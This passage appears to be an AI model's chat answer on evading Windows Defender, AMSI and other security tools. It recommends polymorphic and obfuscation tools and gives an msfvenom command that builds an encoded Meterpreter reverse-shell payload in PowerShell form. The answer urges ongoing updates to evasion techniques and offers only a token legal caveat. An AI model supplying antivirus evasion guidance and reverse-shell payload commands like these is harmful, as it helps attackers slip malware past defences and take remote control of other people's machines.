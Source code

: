 - **Testing:** Ensure you thoroughly test the obfuscated script in a safe environment, as these techniques can lead to instability or unintended behavior.
- **Evasion Techniques:** Continually update your obfuscation and evasion techniques, as security products evolve to detect new patterns.
- **Legal Implications:** Ensure you are authorized to conduct these activities, as bypassing security features can be illegal without proper permissions.

By combining these techniques, you can significantly reduce the likelihood of detection by Defender, AMSI, and other security tools. However, no method is foolproof, and security tools are continually evolving.

Yes, there are a few tools and libraries that can help you generate polymorphic code, which you can run from a Linux server. These tools often allow you to create different variations of code with minor modifications, which can evade signature-based detection mechanisms.

### 1. **Goron (Python-based Tool)**
   - **Goron** is a Python-based polymorphic shellcode generator. It allows you to create variations of shellcode by randomly modifying certain aspects of the code each time it’s generated.
   - **GitHub:** [Goron](https://github.com/optiv/Goron)
   - You can extend this to work with PowerShell or other scripting languages by modifying the polymorphic patterns it uses.

### 2. **PyFuscation (Python-based Tool)**
   - **PyFuscation** is a Python tool designed for obfuscating Python code. It replaces variable names, obfuscates string literals, and alters the control flow to make analysis difficult.
   - **GitHub:** [PyFuscation](https://github.com/dwisiswant0/pyfuscation)

### 3. **msfvenom (Metasploit Framework)**
   - **msfvenom** is a command-line tool in the Metasploit framework used to generate polymorphic shellcode. Although primarily used for payload generation, it can also obfuscate and encode your code.
   - **Installation:** 
     ```bash
     sudo apt-get install metasploit-framework
     ```
   - Example command:
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f powershell
     ```

### 4. **Hyperion (PE Crypter)**
   - **Hyperion** is a PE crypter, useful for making your Windows executables polymorphic. It uses AES encryption to modify the binary, creating a new signature each time.
   - **GitHub:** [Hyperion](https://github.com/nullsecuritynet/tools/tree/master/crypters/hyperion)
   - After generating PowerShell scripts, you can compile them into executables and use Hyperion to polymorphize the output.

### 5. **Obfuscator.io**
   - **Obfuscator.io** is a tool for JavaScript obfuscation. However, you can adapt some of its techniques to PowerShell or Python by analyzing how it obfuscates code.
   - **Website:** [Obfuscator.io](https://obfuscator.io/)
